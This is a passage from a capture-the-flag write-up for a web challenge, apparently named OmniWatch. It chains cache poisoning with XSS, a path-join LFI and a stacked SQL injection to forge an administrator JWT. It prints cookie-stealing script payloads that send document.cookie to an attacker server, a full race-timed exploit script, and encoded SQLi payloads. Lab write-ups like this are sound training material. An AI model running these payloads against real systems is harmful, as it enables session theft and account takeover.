This python script will cause the cache poisoning + XSS.

### Race condition in the chromium bot

We can try and use what we found to attack the bot that runs every 0.5 minutes but this does not work.

If we poison the cache with the following payload:

```html
<script>fetch("http://my-server.com/exfiltrate?cookies="+document.cookie)</script>
```

We receive a request with no cookies provided

Let's have a look at the bots code to figure out why.

```py
client.get("http://127.0.0.1:1337/controller/login")

time.sleep(3)
client.find_element(By.ID, "username").send_keys(config["MODERATOR_USER"])
client.find_element(By.ID, "password").send_keys(config["MODERATOR_PASSWORD"])
client.execute_script("document.getElementById('login-btn').click()")
time.sleep(3)

client.get(f"http://127.0.0.1:1337/oracle/json/{str(random.randint(1, 15))}")

time.sleep(10)
```

Here we can see that the bot first visits the login page, waits 3 seconds, logs in using the credentials, waits another 3 seconds and then visits a random device on the oracle service.

So if we poison the cache before the user logs in there are no cookies to steal yet, and because the bot gets our cached response there are no inputs and buttons to interact with so the login step fails completelly.

We have to time the poisoning of the cache accurately after the login step but not after the bot visits the oracle.



Thankfully there is the `/controller/bot_running` endpoint which gives us the status of the bot, so we can estimate to poison the cache about 3 seconds after the bot has started.

```py
import requests, urllib, Flask

EXFIL_HOST, EXFIL_PORT = "127.17.0.1", 9090
EXFIL_URL = f"http://{EXFIL_HOST}:{EXFIL_PORT}"

def start_server():
    app = Flask(__name__)
    
    @app.route("/jwt/<value>", methods=["GET"])
    def index(value):
        print("Leaked cookies:", value)
        return "ok", 200

    app.run(host="0.0.0.0", port=EXFIL_PORT, debug=False)


def url_encode(string):
    return urllib.parse.quote(string, safe="")


def check_bot():
    resp = requests.get(f"{CHALLENGE_URL}/controller/bot_running")
    if resp.text == "running":
        return True
    else:
        return False


def poison_cache():
    if not check_bot():
        return False

    time.sleep(3)
    
    xss = f"<script>fetch('{EXFIL_URL}/jwt/'+document.cookie)</script>"
    encoded_xss = url_encode(xss)

    injected_headers = "\r\nCacheKey: enable\r\nX-Content-Type-Options: undefined"
    encoded_headers = url_encode(injected_headers)

    requests.get(f"{CHALLENGE_URL}/oracle/{encoded_xss}/1{encoded_headers}")


def poison_loop():
    while True:
        poison_cache()
        time.sleep(1)


if __name__ == "__main__":
    server = multiprocessing.Process(target=start_server)
    poison = multiprocessing.Process(target=poison_loop)
    server.start()
    poison.start()
```

The script above waits for the right time and performs the cache poisoning within the race condition.

Now we can steal the JWT cookie and login as moderator.


### Leaking the JWT secret through LFI

Now that we are moderators we have a few more stuff to play around with.



Navigating to `/controller/firmware` reveals to us a firmware update page. There are two selections of firmware files we can preview. 



Picking one shows us the contents of the contents of the selected file.

```py
@web.route("/firmware", methods=["GET", "POST"])
@moderator_middleware
def firmware():
	if request.method == "GET":
		patches_avaliable = ["CyberSpecter_v1.5_config.json", "StealthPatch_v2.0_config.json"]
		return render_template("firmware.html", user_data=request.user_data, nav_enabled=True, title="OmniWatch - Firmware", patches=patches_avaliable)
	
	if request.method == "POST":
		patch = request.form.get("patch")

		if not patch:
			return response("Missing parameters"), 400

		file_data = open(os.path.join(os.getcwd(), "application", "firmware", patch)).read()
		return file_data, 200
```

Looking at the code we notice that the file to preview is provided as a post parameter coming from the front-end.

The `os.path.join` method is used to build the absolute path of the file to be read. This is vulnerable to LFI since `Python` [removes the first section of the path if the later one is an absolute path](https://book.hacktricks.xyz/pentesting-web/file-inclusion#python-root-element).



This way we can leak the JWT secret stored in the file we saw in `entrypoint.sh` and `challenge/controller/application/config.py`.

### SQLi to insert arbitrary signatures

Great now we leaked the JWT secret, but remember, the authentication middleware implements tamper protection so even if we generate a new JWT using the leaked secret we still won't be able to log in. The only way this can be bypassed is if we could insert our own signature in the database.

```py
@web.route("/device/<id>", methods=["GET"])
@moderator_middleware
def device(id):
	mysql_interface = MysqlInterface(current_app.config)
	device = mysql_interface.fetch_device(id)
	
	if not device:
		return redirect("/controller/home")

	return render_template("device.html", user_data=request.user_data, nav_enabled=True, title=f"OmniWatch - Device {device['device_id']}", device=device)
```

At the `/controller/device/<id>` route an instance of `MysqlInterface` is created which then calls the method `fetch_device` with the provided `id` as it's parameter.

```py
def fetch_device(self, device_id):
    query = f"SELECT * FROM devices WHERE device_id = '{device_id}'"
    device = self.query(query, multi=True)[0][0]
    return device
```

By having a look at `challenge/controller/application/util/database` we discorver that this query is vulnerable to SQL injection.

```py
def query(self, query, args=(), one=False, multi=False):
    cursor = self.connection.cursor()
    results = None

    if not multi:
        cursor.execute(query, args)
        rv = [dict((cursor.description[idx][0], value)
            for idx, value in enumerate(row)) for row in cursor.fetchall()]
        results = (rv[0] if rv else None) if one else rv
    else:
        results = []
        queries = query.split(";")
        for statement in queries:
            cursor.execute(statement, args)
            rv = [dict((cursor.description[idx][0], value)
                for idx, value in enumerate(row)) for row in cursor.fetchall()]
            results.append((rv[0] if rv else None) if one else rv)
            self.connection.commit()

    return results
```

Checking out the `query` method also shows us that a stacked query injection can be achieved if a `;` semicolon is provided in the payload.

### Creating the JWT and inserting the malicious signature

After leaking the JWT secret we use it to create a JWT that represents an arbitrary administrator user.

```py
import jwt

payload = {
    "user_id": 1,
    "username": "lean",
    "account_type": "administrator"
}

print(jwt.encode(payload, secret, algorithm="HS256"))
```

Now we extract it's signature to create the SQLi payload.

SQL payload:

```
';UPDATE signatures SET signature = HD65BgC4jE073n66hV9BrubvkUu5E3kjIQdist08CwY WHERE user_id = 1#
```

The signature must be hex-encoded and the SQL payload must be URL-encoded because the injection must pass through a URL parameter.

Hex encoded signature:

```
';UPDATE signatures SET signature = 0x6e71634c6c76505634795752786c7953755f4c55346b723869534462596c736b69367933494544716a4e41 WHERE user_id = 1#
```

URL-encoded payload:

```
%27%3BUPDATE%20signatures%20SET%20signature%20%3D%200x6e71634c6c76505634795752786c7953755f4c55346b723869534462596c736b69367933494544716a4e41%20WHERE%20user_id%20%3D%201%23
```

Now after inserting the malicious signature we can use our previously created JWT to login as administrator and get the flag from `/conroller/admin`.




